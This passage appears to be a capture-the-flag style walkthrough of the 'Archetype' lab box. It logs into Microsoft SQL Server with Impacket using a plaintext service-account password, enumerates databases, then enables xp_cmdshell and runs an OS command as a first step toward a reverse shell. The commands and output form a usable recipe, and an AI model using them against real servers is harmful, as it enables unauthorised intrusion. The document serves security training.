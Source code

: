   ```
  $ python /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.59.131 -windows-auth
  Impacket v0.11.0 - Copyright 2023 Fortra

  [*] Encryption required, switching to TLS
  [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
  [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
  [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
  [*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
  [*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
  [*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
  [!] Press help for extra shell commands
  SQL (ARCHETYPE\sql_svc  dbo@master)>
  ```

- according to https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#manual-enumeration we can see that there are only the system databases present:

  ```
  SQL (ARCHETYPE\sql_svc  dbo@master)> SELECT name, database_id, create_date FROM sys.databases;
  name     database_id   create_date
  ------   -----------   -----------
  master             1   2003-04-08 09:13:36

  tempdb             2   2023-12-27 07:25:51

  model              3   2003-04-08 09:13:36

  msdb               4   2017-08-22 19:39:22
  ```

  ## foothold

- so let's try to setup the mssql db for a reverse shell:

  ```
  SQL (ARCHETYPE\sql_svc  dbo@master)> sp_configure 'show advanced options', '1'
  [*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
  SQL (ARCHETYPE\sql_svc  dbo@master)> RECONFIGURE
  SQL (ARCHETYPE\sql_svc  dbo@master)> sp_configure 'xp_cmdshell', '1'
  [*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
  SQL (ARCHETYPE\sql_svc  dbo@master)> RECONFIGURE
  SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC master..xp_cmdshell 'whoami'
  output
  -----------------
  archetype\sql_svc

  NULL
  ```

  (as per https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#execute-os-commands)

